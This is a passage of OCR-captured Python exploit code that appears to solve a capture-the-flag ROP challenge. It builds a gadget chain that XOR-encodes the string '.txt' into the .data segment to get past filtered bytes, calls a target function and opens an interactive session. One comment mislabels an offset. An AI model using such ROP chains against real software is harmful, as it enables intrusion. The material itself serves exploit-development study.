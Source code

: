 ```python
    payload+=pop_ebx+p32(2) #sets ebx=2
    
    payload+=xor_ebp_bl #xor datasegm with 2
    
    payload+=pop_ebp+p32(datasegm+1)
    payload+=xor_ebp_bl #xor datasegm+1 with 2

    payload+=pop_ebp+p32(datasegm+2)
    payload+=xor_ebp_bl #so on

    payload+=pop_ebp+p32(datasegm+3)
    payload+=xor_ebp_bl

######################################################
    
    payload+=pop_esi_edi_ebp+b",vzv"+p32(datasegm+0x4)+p32(datasegm+0x4) #Sets esi=",vzv", edi=address of .data, ebp=address of .data
    payload+=mov_edi_esi #moves esi into the address of edi (",vzv" -> .data+0x4)

######################################################
    payload+=pop_ebx+p32(2) #sets ebx=2

    payload+=xor_ebp_bl #xor datasegm with 2

    payload+=pop_ebp+p32(datasegm+5)
    payload+=xor_ebp_bl #xor datasegm+1 with 2

    payload+=pop_ebp+p32(datasegm+6)
    payload+=xor_ebp_bl #so on

    payload+=pop_ebp+p32(datasegm+7)
    payload+=xor_ebp_bl

######################################################
    payload+=useFunc+p32(datasegm)

    io.send(payload)
    print(io.recv(2048))
    io.interactive()
```
